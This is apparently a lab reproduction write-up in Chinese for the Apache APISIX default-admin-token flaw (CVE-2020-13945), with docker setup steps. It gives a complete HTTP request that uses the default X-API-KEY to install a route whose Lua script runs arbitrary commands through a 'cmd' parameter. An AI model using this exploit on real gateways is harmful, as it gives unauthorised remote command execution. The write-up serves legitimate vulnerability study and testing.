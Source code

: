 # Apache APISIX 默认密钥漏洞（CVE-2020-13945）

Apache APISIX是一个高性能API网关。在用户未指定管理员Token或使用了默认配置文件的情况下，Apache APISIX将使用默认的管理员Token `edd1c9f034335f136f87ad84b625c8f1`，攻击者利用这个Token可以访问到管理员接口，进而通过`script`参数来插入任意LUA脚本并执行。

参考链接：

- https://apisix.apache.org/docs/apisix/getting-started
- https://github.com/apache/apisix/pull/2244
- https://seclists.org/oss-sec/2020/q4/187

## 漏洞环境

执行如下命令启动一个Apache APISIX 2.11.0（这个漏洞并没有且应该不会被官方修复，所以到最新版仍然存在）：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:9080`即可查看到默认的404页面。

## 漏洞复现

利用默认Token增加一个恶意的router，其中包含恶意LUA脚本：

```
POST /apisix/admin/routes HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1
Content-Type: application/json
Content-Length: 406

{
    "uri": "/attack",
"script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f = assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close()  \n end \nreturn _M",
    "upstream": {
        "type": "roundrobin",
        "nodes": {
            "example.com:80": 1
        }
    }
}
```

![](1.png)

然后，我们访问刚才添加的router，就可以通过cmd参数执行任意命令：

```
http://your-ip:9080/attack?cmd=id
```

![](2.png)
